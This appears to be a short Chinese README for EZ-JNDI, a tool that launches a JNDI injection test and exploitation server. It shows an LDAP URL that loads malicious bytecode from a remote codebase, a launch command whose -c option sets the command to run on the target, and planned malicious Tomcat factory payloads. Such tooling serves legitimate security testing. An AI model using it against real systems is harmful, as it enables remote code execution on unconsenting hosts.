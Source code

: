 # EZ-JNDI
一键启动JNDI测试/利用环境。

```text
ldap://0.0.0.0:1099/Foo --> 利用远程CodeBase加载恶意字节码执行命令
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="open -a Calculator"
```

![img.png](img/img.png)

TODO:
- 直接返回序列化数据
- 返回Tomcat恶意本地Factory